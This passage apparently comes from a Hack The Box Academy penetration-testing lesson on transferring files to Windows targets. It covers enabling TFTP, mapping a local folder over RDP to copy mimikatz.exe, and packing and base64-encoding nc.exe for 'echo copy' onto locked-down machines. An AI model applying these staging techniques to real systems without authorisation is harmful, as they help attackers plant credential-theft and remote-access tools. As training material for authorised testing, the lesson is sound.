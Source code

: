 ### FTP Transfer
DISM /online /Enable-Feature /FeatureName:TFTP
````
In newer versions of Windows, the Install-WindowsFeature PowerShell cmdlet can also be used. Both DISM and Install-WindowsFeature require administrative access.

### FTP Transfer
````powershell
Install-WindowsFeature TFTP-Client
````
## RDP
Remote Desktop is often enabled on Windows machines, and from Linux, rdesktop can be used to expose a local folder in the remote RDP session.

````bash
rdesktop 10.10.10.132 -r disk:linux='/home/user/rdesktop/files'
````
Alternatively, from Windows, the native mstsc.exe remote desktop client can be used.

![windows](https://academy.hackthebox.com/storage/modules/24/rdp.png)

After selecting the drive, we can interact with it in the remote session as follows:

````powershell
copy \\tsclient\c\temp\mimikatz.exe .
````
This drive is not accessible to any other users logged on to the target computer, even if they manage to hijack the RDP session.

## Echo Copy
On machines with a very stringent lockdown policy, it may be necessary to echo copy files. Let’s examine how nc.exe can be transferred to a target Windows computer using this method.

Echo copying files is very inefficient and can result in a large amount of data being transferred across the clipboard, so we can use an executable packer such as UPX to make the source file as small as possible.

````bash
upx --best nc.exe
````
````bash
upx.exe --best nc.exe

                       Ultimate Packer for eXecutables
                          Copyright (C) 1996 - 2020
UPX 3.96        Markus Oberhumer, Laszlo Molnar & John Reiser   Jan 23rd 2020

        File size         Ratio      Format      Name
   --------------------   ------   -----------   -----------
     59392 ->     29696   50.00%    win32/pe     nc.exe                        

Packed 1 file.
````
Next, we need to convert the binary data to base64. Windows contains a native utility that can do this - certutil.
````powershell
PS C:\htb> certutil.exe -encode nc.exe nc.txt
````
Open the resulting text file in a text editor that supports the replacement of extended characters (\n \r \t \0 \x...), such as Notepad++. Replace newlines with **echo "**.
